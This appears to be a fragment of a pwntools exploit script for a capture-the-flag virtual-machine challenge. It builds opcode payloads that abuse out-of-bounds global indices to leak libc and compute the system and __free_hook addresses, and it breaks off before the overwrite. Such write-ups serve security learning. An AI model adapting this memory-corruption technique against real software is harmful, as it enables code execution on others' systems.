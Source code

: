 ```python 

# debug mode
cmd = ""
#cmd = "b *%d\n" %(base+0x137e) # loop
#cmd += "b *%d\n" %(base+0x1d58) # vm_exec
#cmd = "set $a=0x5555555592a0\n" # vm's address
#cmd += "b *%d\n" %(base+0x194C) # before exit
#gdb.attach(p, cmd)

# payload opcode 
code = p32(POP)*1
code += p32(GSTORE) + p32(1)
code += p32(GSTORE) + p32(0)

code += p32(GSTORE) + p32(3)
code += p32(GSTORE) + p32(2)

code += p32(GSTORE) + p32(5)
code += p32(GSTORE) + p32(4)

# gstore balance
code += p32(GLOAD) + p32(4)
code += p32(GLOAD) + p32(5)

code += p32(GLOAD) + p32(2)
code += p32(GLOAD) + p32(3)

code += p32(GLOAD) + p32(0)
code += p32(GLOAD) + p32(1)

# load stack ptr data (in gloabl area) to stack area
code += p32(GLOAD) + p32(4)
code += p32(GLOAD) + p32(5)

# change global ptr
code += p32(STORE) + p32(-992&0xffffffff)
code += p32(STORE) + p32(-993&0xffffffff)

# store balance
code += p32(LOAD) + p32(-993&0xffffffff)
code += p32(LOAD) + p32(-992&0xffffffff)


# load libc address(in global area -> program stack) to stack area
# reverse data for calc
code += p32(GLOAD) + p32(0x87)
code += p32(GLOAD) + p32(0x86)

# calc system and __free_hook address offset
'''
leak         =>  0x7ffff7dea0b3
system       =>  0x7ffff7e18410
__free_hook-8  =>  0x7ffff7fb1b20 
'''

# calc system address
code += p32(PUSH) + p32(0x7ffff7e18410-0x7ffff7dea0b3)
code += p32(ADD)

# calc __free_hook_address
code += p32(GLOAD) + p32(0x86)
code += p32(PUSH) + p32(0x7ffff7fb1b20-0x7ffff7dea0b3)
code += p32(ADD)
```